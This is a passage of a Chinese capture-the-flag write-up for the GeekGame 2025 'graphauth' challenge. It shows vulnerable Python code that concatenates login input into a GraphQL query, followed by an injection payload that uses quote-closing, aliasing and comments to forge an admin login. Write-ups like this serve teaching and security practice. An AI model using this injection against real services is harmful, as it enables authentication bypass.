 [出题人博客](https://ouuan.moe/post/2025/10/geekgame-2025-graphauth-ransomware#统一身份认证)

完整脚本见 [sol.py](./sol/sol.py)（这个是纯自动的，包含下面提到的多种做法，实际做不需要纯自动，比如可以手动得到 flag 询问路径）：

### Flag 1

在登录和注册时，直接将用户输入拼接在了 GraphQL 查询中，用引号就可以闭合字符串进行注入。

```python
query = f'''
query ($username: String = "{username}", $password: String = "{password}") {{
  login(username: $username, password: $password) {{
    ok
    isAdmin
    username
  }}
}}
'''
```

攻击目标是返回 `"login": { "ok": true, "isAdmin": true, "username": "xxx" }`，而查询中本来有的这个 `login` 没法篡改，只能注入一个新的 `login`。代码中检查 `ok` 时只需要 truthy 即可，而检查 `isAdmin` 时写的是 `== True`，所以必须是 `true`，而能够返回 `true` 的除了 `isAdmin` 只有 `ok`，通过 [alias](https://graphql.org/learn/queries/#aliases)，可以让返回值中的 `isAdmin` 字段放 `ok` 的值。


```graphql
query ($username: String = "username", $password: String = "password") {
  login(username: $username, password: $password) {
    ok
    isAdmin: ok
    username
  }") {
  login(username: $username, password: $password) {
    ok
    isAdmin
    username
  }
}
```

此时还需要处理掉查询语句中的 `") {` 以及原有的这个 `login`。`") {` 通过注释 `#` 就可以处理。原有的 `login` 会造成重复而出错，给一个 alias 就行：

```graphql
query ($username: String = "username", $password: String = "password") {
  login(username: $username, password: $password) {
    ok
    isAdmin: ok
    username
  }
  original: #") {
  login(username: $username, password: $password) {
    ok
    isAdmin
    username
  }
}
```
